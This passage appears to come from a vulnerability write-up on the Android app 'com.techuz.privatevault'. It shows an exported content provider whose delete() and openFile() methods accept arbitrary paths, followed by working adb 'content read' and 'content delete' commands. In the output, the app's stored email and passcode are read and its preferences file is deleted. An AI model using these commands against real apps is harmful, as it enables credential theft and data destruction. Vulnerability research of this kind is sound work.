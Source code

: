 ```java
public int delete(Uri uri, String where, String[] whereArgs) {
    new File(uri.getPath()).delete();
    this.mContext.getContentResolver().notifyChange(uri, null);
    return 1;
}
```

We can interact with every overridden method, but because both `delete()` and `openFile()` has a custom and useful logic, those are the one we are more interested in. Using `adb shell content` we can communicate with both methods and because the provider is exported and there are no security measures in place, we can use them to read and delete arbitrary files stored within `/data/data/com.techuz.privatevault`.

```bash
PS > .\platform-tools\adb.exe shell ls /data/data/com.techuz.privatevault/shared_prefs
...
PV.xml
...
PS > .\platform-tools\adb.exe shell content read --uri content://com.techuz.privatevault/data/data/com.techuz.privatevault/shared_prefs/PV.xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="PV_EMAIL">0xbro@yopmail.com</string>
    <string name="PASSCODE">0000</string>
</map>
PS > .\platform-tools\adb.exe shell content delete --uri content://com.techuz.privatevault/data/data/com.techuz.privatevault/shared_prefs/PV.xml

# even if we get an error, the file is still deleted
Error while accessing provider:com.techuz.privatevault
java.lang.NullPointerException: Attempt to invoke virtual method 'android.content.ContentResolver android.content.Context.getContentResolver()' on a null object reference
        at android.os.Parcel.createException(Parcel.java:2077)
        at android.os.Parcel.readException(Parcel.java:2039)
        at android.database.DatabaseUtils.readExceptionFromParcel(DatabaseUtils.java:188)
        at android.database.DatabaseUtils.readExceptionFromParcel(DatabaseUtils.java:140)
        at android.content.ContentProviderProxy.delete(ContentProviderNative.java:553)
        at com.android.commands.content.Content$DeleteCommand.onExecute(Content.java:525)
        at com.android.commands.content.Content$Command.execute(Content.java:469)
        at com.android.commands.content.Content.main(Content.java:690)
        at com.android.internal.os.RuntimeInit.nativeFinishInit(Native Method)
        at com.android.internal.os.RuntimeInit.main(RuntimeInit.java:338)
PS > .\platform-tools\adb.exe shell content read --uri content://com.techuz.privatevault/data/data/com.techuz.privatevault/shared_prefs/PV.xml
Error while accessing provider:com.techuz.privatevault
java.io.FileNotFoundException: /data/data/com.techuz.privatevault/shared_prefs/PV.xml
        at android.database.DatabaseUtils.readExceptionWithFileNotFoundExceptionFromParcel(DatabaseUtils.java:149)
        at android.content.ContentProviderProxy.openFile(ContentProviderNative.java:604)
        at com.android.commands.content.Content$ReadCommand.onExecute(Content.java:587)
        at com.android.commands.content.Content$Command.execute(Content.java:469)
        at com.android.commands.content.Content.main(Content.java:690)
        at com.android.internal.os.RuntimeInit.nativeFinishInit(Native Method)
        at com.android.internal.os.RuntimeInit.main(RuntimeInit.java:338)
```
